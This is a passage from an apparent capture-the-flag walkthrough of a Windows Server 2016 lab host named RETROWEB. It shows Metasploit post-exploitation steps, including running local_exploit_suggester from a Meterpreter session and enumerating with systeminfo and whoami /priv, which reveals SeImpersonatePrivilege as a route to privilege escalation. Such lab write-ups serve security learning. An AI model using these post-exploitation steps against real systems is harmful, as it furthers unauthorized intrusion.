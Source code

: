 ### Privilege escalation

Now in our new meterpreter connection we can search for post metasploit post modules to enumerate further. We are looking for possible exploits


```bash
meterpreter > bg
msf6 exploit(multi/handler) > search type:post platform:windows
msf6 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
msf6 post(multi/recon/local_exploit_suggester) > set SESSION 1
run
```

Unfortunately this script didn't find anything useful.  
Let's run **systeminfo** and **whoami /priv** command. Information we get will be useful to perform privellege escalation attack.

Go back to your session  

```bash
msf6 post(multi/recon/local_exploit_suggester) > session -i 1
```


```batch
C:\Users\All Users>systeminfo             
systeminfo

Host Name:                 RETROWEB
OS Name:                   Microsoft Windows Server 2016 Standard
OS Version:                10.0.14393 N/A Build 14393
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
```



```batch
C:\Users\All Users>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

```
